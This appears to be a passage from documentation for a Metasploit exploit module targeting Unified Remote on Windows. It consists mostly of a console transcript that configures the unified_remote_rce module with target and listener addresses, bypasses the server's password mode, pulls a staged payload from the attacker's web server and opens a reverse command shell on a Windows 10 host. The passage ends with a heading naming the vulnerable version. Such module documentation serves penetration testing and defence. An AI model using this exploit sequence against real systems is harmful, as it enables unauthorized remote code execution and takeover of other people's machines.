 ```
resource (unified.rb)> use exploits/windows/misc/unified_remote_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (unified.rb)> set rhosts 192.168.2.95
rhosts => 192.168.2.95
resource (unified.rb)> set lhost 192.168.2.199
lhost => 192.168.2.199
resource (unified.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/unified_remote_rce) > exploit

[*] Started reverse TCP handler on 192.168.2.199:4444 
[*] 192.168.2.95:9512 - Client name set to: android-Mmw9X2FSLLPzJk6t
[*] 192.168.2.95:9512 - Retrieving server config
[*] 192.168.2.95:9512 - users mode enabled, password required, bypassing
[*] 192.168.2.95:9512 - Uploading new server config
[*] 192.168.2.95:9512 - Sleeping 5 seconds for server to restart
[+] 192.168.2.95:9512 - Found account: admin
[+] 192.168.2.95:9512 - Found account: wheres
[*] 192.168.2.95:9512 - Sending handshake part 1
[*] 192.168.2.95:9512 - Sending handshake part 2
[*] 192.168.2.95:9512 - Opening Start Menu
[*] 192.168.2.95:9512 - Opening command prompt
[*] 192.168.2.95:9512 - Typing out payload
[*] 192.168.2.95:9512 - Using URL: http://192.168.2.199:8080/
[*] 192.168.2.95:9512 - Attempting to pull down payload
[*] 192.168.2.95:9512 - Attempting to open payload
[+] 192.168.2.95:9512 - Payload request received, sending 73802 bytes of payload for staging
[+] 192.168.2.95:9512 - Payload request received, sending 73802 bytes of payload for staging
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.2.95
[*] 192.168.2.95:9512 - Reverting security mode
[*] 192.168.2.95:9512 - Uploading new server config
[*] 192.168.2.95:9512 - Sleeping 5 seconds for server to restart
[*] Command shell session 1 opened (192.168.2.199:4444 -> 192.168.2.95:59932) at 2022-09-08 16:53:05 -0400
[*] 192.168.2.95:9512 - Server stopped.
[!] 192.168.2.95:9512 - This exploit may require manual cleanup of 'c:\Windows\Temp\2NzuxPbY6fGK9FdNy.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Users\windows>
```

### Version 3.11.0.2483 on Windows 10, no authentication, no web server access
